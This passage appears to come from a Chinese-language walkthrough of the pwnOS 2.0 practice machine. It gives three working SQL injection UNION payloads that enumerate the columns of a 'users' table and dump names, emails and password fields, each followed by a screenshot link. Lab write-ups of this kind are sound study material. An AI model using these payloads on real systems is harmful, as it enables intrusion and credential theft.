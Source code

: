 使用

```sql
' union select 1,2,3,column_name,5,6,7,8 from information_schema.columns where table_name='users'-- -
```

查询表名：

![](/img/game/pwnos2.0/1511854298523.png)

使用

```sql
' union select 1,2,3,group_concat(column_name),5,6,7,8 from information_schema.columns where table_name='users'-- -
```

查询列名：

![](/img/game/pwnos2.0/1511854363927.png)

使用

```sql
' union select 1,2,3,group_concat(user_id,0x3a,first_name,0x3a,last_name,0x3a,email,0x3a,pass,0x3a,user_level),5,6,7,8 from users-- -
```
